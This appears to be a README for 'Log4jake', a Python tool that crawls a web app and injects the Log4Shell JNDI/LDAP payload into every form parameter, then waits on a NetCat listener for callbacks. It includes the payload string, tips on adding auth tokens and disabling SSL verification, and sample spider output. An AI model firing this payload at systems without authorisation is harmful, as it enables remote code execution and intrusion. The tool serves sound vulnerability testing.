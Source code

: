 # Log4jake

Log4jake works by spidering a web application for GET/POST requests. It will then automatically execute the GET/POST requests, filling any discovered parameters with the ${jndi:ldap://<ip>:389} Log4j payload. Note that this tool is designed to work simultaneously with a NetCat listener.
  
If you want to test behind authentication, use the commented '#req.add_header('Authorization', "token_goes_here")' line to add the proper token. If you are experiencing SSL errors, use the commented '#context = ssl._create_unverified_context()' line in addition to 'resp = urllib.request.urlopen(req, context=context)'
  
If your application is vulnerable to Log4j, your NetCat listener will receive a connection.
  
  Syntax:
```
  └─$ python3 log4jake.py https://10.10.3.50
Remember to start NetCat Listener on port 389!!!
Enter IP address of your Listener: 10.10.3.4  

Starting Web Spider
-------------------

SPIDERING -> https://10.10.3.50/
SPIDERING -> https://10.10.3.50/signup
POST /signup
SPIDERING -> https://10.10.3.50/login
POST /login_exec
SPIDERING -> https://10.10.3.50/clients
SPIDERING -> https://10.10.3.50/admin/website
SPIDERING -> https://10.10.3.50/cdn-cgi/l/email-protection#9ef4f1f0defdf8ffedf7eafbedb0fdf1f3
SPIDERING -> https://10.10.3.50/forgotpassword
POST /mailer5

```
